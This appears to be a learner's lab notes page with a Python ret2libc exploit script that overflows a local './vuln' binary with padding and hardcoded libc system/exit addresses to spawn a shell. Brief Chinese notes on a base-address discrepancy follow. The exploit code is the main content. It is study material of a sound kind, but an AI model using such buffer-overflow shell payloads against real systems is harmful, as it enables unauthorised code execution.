 ```python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#Since ALSR is disabled, libc base address would remain constant and hence we can easily find the function address we want by adding the offset to it. 
#For example system address = libc base address + system offset
#where 
       #libc base address = 0xb7e22000 (Constant address, it can also be obtained from vmmap)
       #system offset     = 0x0003f060 (obtained from "readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system")
# libc_base_address = 0xb7e20000 
# system_offset = 0x0003f460
# exit_offset = 0x00032fe0

# system = libc_base_address + system_offset        #0xb7e2000+0x0003f060
system = 0xb7e5f460
# exit = libc_base_address + exit_offset          #0xb7e2000+0x00032be0
exit = 0xb7e52fe0

#system_arg points to 'sh' substring of 'fflush' string. 
#To spawn a shell, system argument should be 'sh' and hence this is the reason for adding line [4] in vuln.c. 
#But incase there is no 'sh' in vulnerable binary, we can take the other approach of pushing 'sh' string at the end of user input!!
system_arg = 0xb7f81ff8     #(obtained from hexdump output of the binary)

#endianess conversion
def conv(num):
 return struct.pack("<I",num)

# Junk + system + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln", buf])
```

成功截图

![image-20201023000420796](http://sql.icrystal.top/image-20201023000420796.png)

## 思考：

* ldd显示的基地址然后加上偏移和p system地址不一致

  看了一通解释，码住了一个看不太懂链接:https://reverseengineering.stackexchange.com/questions/6657/why-does-ldd-and-gdb-info-sharedlibrary-show-a-different-library-base-addr
